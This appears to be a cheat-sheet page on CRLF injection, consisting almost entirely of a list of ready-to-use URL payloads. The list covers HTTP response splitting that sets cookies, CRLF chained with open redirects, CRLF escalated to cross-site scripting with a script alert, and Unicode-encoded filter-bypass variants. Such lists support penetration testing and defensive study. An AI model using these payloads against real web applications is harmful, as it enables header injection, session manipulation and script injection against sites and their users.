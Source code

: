 # CRLF Injection (%0d%0a)

{% embed url="https://medium.com/cyberverse/crlf-injection-playbook-472c67f1cb46" %}



## Payloads

```
1. HTTP Response Splitting
• /%0D%0ASet-Cookie:mycookie=myvalue
2. CRLF chained with Open Redirect
• //www.google.com/%2F%2E%2E%0D%0AHeader-Test:test2                     • /www.google.com/%2E%2E%2F%0D%0AHeader-Test:test2                       • /google.com/%2F..%0D%0AHeader-Test:test2
• /%0d%0aLocation:%20http://example.com
3. CRLF Injection to XSS
• /%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23
• /%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
4. Filter Bypass
• %E5%98%8A = %0A = \u560a
• %E5%98%8D = %0D = \u560d
• %E5%98%BE = %3E = \u563e (>)
• %E5%98%BC = %3C = \u563c (<)
• Payload = %E5%98%8A%E5%98%8DSet-Cookie:%20test
```
